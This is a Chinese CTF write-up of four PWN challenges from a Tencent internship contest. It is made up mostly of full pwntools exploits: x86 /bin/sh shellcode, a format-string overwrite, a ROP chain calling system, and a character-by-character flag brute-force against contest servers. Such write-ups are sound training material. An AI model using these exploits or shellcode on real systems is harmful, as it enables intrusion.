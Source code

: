 ```yaml
---
layout: post
title: 腾讯实习30强writeup（PWN）
categories:
  - 安全
url: 230.html
id: 230
comments: false
date: 2016-07-07 18:32:15
tags:
---
```


### 1\. PWN1 tc

Linux下的保护机制基本都没开，查看程序逻辑，发现我们输入的一个变量值v6会决定函数指针v7，其中 funcs是一个全局数组，并没有对v6值进行判断，因此我们可以通过设置v6的值让函数指向某个地址，观察全局变量区我们发现存在buf这个全局数组，而这个字符数组内容是在readIntergers函数中由用户输入的，因此我们可以控制buf的前四个字节为buf+4的地址，buf+4开始为linux shell的payload。

  ![](http://skysider.com/wp-content/uploads/2016/07/880086a5c7ab00679603d26688d52191.png) 

Exp如下：

#!/usr/bin/env python

from pwn import *



DEBUG = 0

buf_addr = 0x0804a0a0

#context.log_level = 'debug'

if DEBUG:

    p = process("./bin/tc1")

else:

    p = remote('106.75.9.11', 20000)



def exp():

    p.recvuntil("Divide\\n")

    p.sendline("29")

    p.recvuntil("\]\\n")

    payload = p32(buf_addr+4)

    payload += "\\x6a\\x0b"

    payload += "\\x58"

    payload += "\\x31\\xf6"

    payload += "\\x56"

    payload += "\\x68\\x2f\\x2f\\x73\\x68"

    payload += "\\x68\\x2f\\x62\\x69\\x6e"

    payload += "\\x89\\xe3"

    payload += "\\x31\\xc9"

    payload += "\\x89\\xca"

    payload += "\\xcd\\x80"

    #raw_input("set bp")

    p.sendline(payload)

    p.interactive()


exp()

### 2\. PWN2 echo-200

这个程序是一个静态链接的程序，checksec发现只开启了stack canary.

  ![](http://skysider.com/wp-content/uploads/2016/07/0ea6274aa849ebb43ec25758f583517d.png) 

下面查看程序逻辑，逻辑比较简单，只是不断的读字符和打印字符 

![](http://skysider.com/wp-content/uploads/2016/07/623e56fdb5692830d866e359a9e332b3.png) 

注意到while循环里printf存在明显的格式化串漏洞，没开nx，我们就可以考虑直接将linux 获取shell的shellcode放在buffer里，利用思路如下：首先leak出buffer地址，根据size与buffer的相对偏移计算出size的地址，然后将size改为0x200，扩大buffer的size之后，下面就是劫持程序流程，我们可以计算出调用printf时返回地址与buffer的偏移，从而将返回地址修改为buffer中的某个地址，完整的利用exp如下：  

#!/usr/bin/env python
from pwn import *

DEBUG = 0
if DEBUG:
	p = process('./bin/echo-200')
else:
	p = remote('106.75.9.11', 20001)

context.log_level = 'debug'
def exp():
    p.recvuntil("\\n")
    p.sendline("%5$x")
    buf_addr = u32(p.recvuntil('\\n')\[:-1\].decode('hex')\[::-1\])
    print "buf\_addr =>", hex(buf\_addr)
    p.recvuntil("\\n")
    payload = p32(buf_addr-0xc)
    payload += "%"+str(0x200-4)+"c"
    payload += "%7$hn"
    p.sendline(payload)
    p.recvuntil('\\n')
    ret\_addr = buf\_addr - 0x20
    payload\_addr = buf\_addr + 0x100
    print "payload\_addr =>", hex(payload\_addr)
    payload\_low\_addr= payload_addr & 0xffff
    payload\_high\_addr = payload_addr >> 16
    if payload\_high\_addr > payload\_low\_addr:
	payload2 = p32(ret_addr)
	payload2 += p32(ret_addr+2)
	payload2 += '%'+str(payload\_low\_addr - 8)+'c'
	payload2 += "%7$hn"
	payload2 += '%'+str(payload\_high\_addr - payload\_low\_addr)+'c'
	payload2 += "%8$hn"
	payload2 += 'a'*(0x100- len(payload2))
	payload2 += "\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"
    else:
	payload2 = p32(ret_addr+2)
	payload2 += p32(ret_addr)
	payload2 += '%'+str(payload\_high\_addr - 8)+'c'
	payload2 += "%7$hn"
	payload2 += '%'+str(payload\_low\_addr - payload\_high\_addr)+'c'
	payload2 += "%8$hn"
	payload2 += 'a'*(0x100- len(payload2))
	payload2 += "\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"

    p.sendline(payload2)
    p.interactive()

exp()

   

### 3\. PWN3 qwb3

这个程序开启了NX，查看程序逻辑，发现vulnerable_function函数存在明显的栈溢出，主要在于怎么利用

  ![](http://skysider.com/wp-content/uploads/2016/07/b64cd3d7f13974bb7f619f198f200c78.png) 

开始的思路是构造rop去leak write函数和read函数的地址，然后利用libc-database去找对应的libc，后来leak出来之后发现没有对应的libc版本，接下来想到直接用pwntools的dynelf去爆破system函数地址，与leak出来的write函数地址计算偏移。下次攻击时只需要leak处write函数便可计算出system函数地址，最后就是构造rop去写/bin/sh，并传给system函数，此处可以参考[http://drops.wooyun.org/papers/7551，里面介绍了一段x64](http://drops.wooyun.org/papers/7551，里面介绍了一段x64)下一段比较通用的gadget，exp如下：

  

#!/usr/bin/env python
from pwn import *

DEBUG = 0
main = 0x40049d
binsh_addr = 0x601300

if DEBUG:
    p = process("./bin/qwb3")
    offset = 0x9c6d0
else:
    p = remote("106.75.8.230", 19286)
    offset = 0x9cc20

def leak(addr):
    payload = 'a'*72
    payload += p64(0x400631) # pop rsi, pop r15, ret
    payload += p64(addr) 
    payload += 'b'*8
    payload += p64(0x4005b6) 
    p.sendline(payload)
    data = p.recv(8)
    log.debug("%#x => %s" %(addr, (data or '').encode('hex')))
    p.recv()
    return data

def exp():
    '''
    p.recvuntil("\\n")
    d = DynELF(leak, main, elf=ELF('./bin/qwb3'))
    system_addr = d.lookup('system', 'libc')
    write_addr = d.lookup('write', 'libc')
    print "system\_addr =>", hex(system\_addr)
    print "offset =>", hex(write\_addr - system\_addr)
    p.interactive()
    '''
    p.recvuntil("\\n")
    payload = 'a'*72
    payload += p64(0x400631) # pop rsi, pop r15, ret
    payload += p64(0x601018) #got_write
    payload += p64(0)
    payload += p64(0x400633) # pop rdi, ret
    payload += p64(1) 
    payload += p64(0x400450) # plt_write
    payload += p64(0x400631) # pop rsi, pop r15, ret
    payload += p64(binsh_addr) # buf
    payload += p64(0) #rbp
    payload += p64(0x400633) # pop rdi, ret
    payload += p64(0)
    payload += p64(0x400460) # r12 read@got
    payload += p64(0x40059d) # vuln_function
    #raw_input("bp")
    p.sendline(payload)
    write_addr = u64(p.recv(8))
    system\_addr = write\_addr - offset
    print "system\_addr =>", hex(system\_addr)
    #raw_input("bp2")
    p.sendline('/bin/sh'+'\\x00')
    payload2 = 'a'*72
    payload2 += p64(0x400633)  #pop rdi, ret
    payload2 += p64(binsh_addr)  #
    payload2 += p64(system_addr)
    p.sendline(payload2)
    p.recv()
    p.interactive()

exp()

  

### 4\. PWN4

主程序逻辑如下：

  ![](http://skysider.com/wp-content/uploads/2016/07/61d90c0cc0c7d5f92cd33644556392f2.png)

其中，welcome函数和inputName函数分别是打印信息和输入用户名，checkFlag函数大概逻辑是要求你输入flag，并根据你输入的flag的长度与远程的flag相应前几个对应字符进行对比，匹配与不匹配时输出的信息不一样，这里就存在爆破的可能，首先爆破第一个字符，成功后继续爆破第二个，依次破解单个字符

  ![](http://skysider.com/wp-content/uploads/2016/07/91a4403e92c83d9c42a90b470fd87959.png)

Exp如下：

  

#!/usr/bin/env python
from pwn import *
import string
import time

whole_flag = ""
isCorrect = False

def exp(flag):
    global whole_flag
    global isCorrect
    p = remote('106.75.8.230', 13349)
    p.recvuntil("YOUR NAME:")
    p.sendline('aaa')
    p.recvuntil("again?\\n")
    p.sendline('aaa')
    p.recvuntil("FLAG: ")
    p.sendline(flag)
    result = p.recv()
    if result.find("submit")>=0:
        whole_flag = flag
        isCorrect = True
        print "current flag:", flag,
    p.close()

#exp(whole_flag)
while len(whole_flag) < 20:
    isCorrect = False
    for i in string.ascii\_letters+string.digits+'{\_}':
        exp(whole_flag+i)
        time.sleep(0.5)
        if isCorrect == True:
            break
    if not isCorrect:
        print whole_flag
        break

print "whole flag：", whole_flag